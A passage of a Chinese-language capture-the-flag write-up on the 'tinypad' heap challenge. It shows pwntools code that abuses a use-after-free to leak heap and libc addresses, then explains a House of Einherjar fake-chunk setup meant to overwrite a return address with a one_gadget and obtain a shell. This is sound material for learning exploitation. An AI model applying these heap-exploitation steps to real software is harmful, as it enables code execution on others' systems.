 ```
p.recvuntil("(Y/n)&gt;&gt;&gt; ")
p.sendline('Y')
return retstr
```



## 0x04 地址泄露

通过利用UAF漏洞，我们可以直接泄露heap和libc的地址。首先申请两个fastbin大小的堆块(index 1,index 2)，然后申请一个不是fastbin大小的堆块(index 3)，最后申请一个堆块(index 4)用于隔断top chunk。

对index2进行释放，然后再对index1进行释放，这样index2的地址就会存储在index1的fd中(fastbin)，我们就可以得到index2的堆块地址。

然后释放index3，由于index3不是fastbin大小的堆块，会被程序放入unsortedbin中。这个堆块的fd和bk都会存储main_arena + 88,这样就能得到heap和libc地址了。最后把index4释放掉，便于我们重新分配堆块。

```
#1 leak heap addr and libc addr
alloc(0x40,'a')#idx1
alloc(0x40,'b')#idx2
alloc(0x80,'c')#idx3
alloc(0x18,'d')#idx4


delete(2)#fastbin
delete(1)#fastbin
delete(3)#unsorted bin
delete(4)
p.recvuntil('CONTENT: ')
buf_addr = u64(p.recvuntil('\n',drop = True).ljust(8,'\x00'))#堆块1的内容
p.recvuntil('CONTENT: ')
p.recvuntil('CONTENT: ')
libc_base = u64(p.recvuntil('\n',drop = True).ljust(8,'\x00')) - 0x7f8c12b7ab78 + 0x7f8c127b6000 #堆块3的内容是main_arena + 88,根据它与libc之间的偏移算出libc的基址
main_arena_88 = libc_base + 0x7f8c12b7ab78 - 0x7f8c127b6000
```

这样，我们就很轻松地得到了heap地址和libc地址。



## 0x05 构造House Of Einherjar

得到了heap地址和libc地址之后，我们也得到了one_gadget的地址，下面我们需要将我们的one_gadget写到程序可以运行的地方去。我们可以通过改写tinypad中存储的堆块指针然后edit来实现任意地址写数据的目的。这要求我们需要控制tinypad的存储堆块指针那片区域中的内容。如果我们可以把tinypad中存储的堆块指针覆写，并且指向程序可以运行到的地方，比如将堆块指针覆写为main函数的返回地址处，修改返回地址为one_gadget，我们就可以让程序返回时拿到shell了。但是tinypad通过正常读写的方式只能影响到前256个字节，如果要影响后面的字节，需要在tinypad上做一个fake_chunk出来。由于我们fake_chunk可写的大小也是0x100(因为alloc的大小最大就是0x100)，所以我们不能把fake_chunk构造到tinypad的头部，而是要把它构造在tinypad数据缓冲区的中间(我将fake_chunk的其实地址改写到&amp;tinypad + 0x20处，即tinypad数据缓冲区下两行处。)

下图是我们将要构造的fake_chunk位置解释：

回顾0x01中，House Of Einherjar的利用要求，我们是否满足了要求？

House Of Einherjar的本例中需要满足的条件：
1. 我们的target_addr是可控的，我们需要在上面构造fake_chunk并绕过unlink和unsorted bin的保护。
1. 我们需要知道target_addr和chunk之间的地址偏移，用来写入prev_size位。
1. 我们需要有溢出漏洞来改写chunk的prev_inuse位。
1. 至于chunk的prev_size位，我们可以通过申请例如0x18,0x28,0x38大小的堆块来直接使用chunk的prev_size位，不需要利用漏洞，因为堆块之间的prev_size位是共用的。
第一点，我们的target_addr是可以用edit来进行控制的，因为edit功能会先在tinypad上写数据。
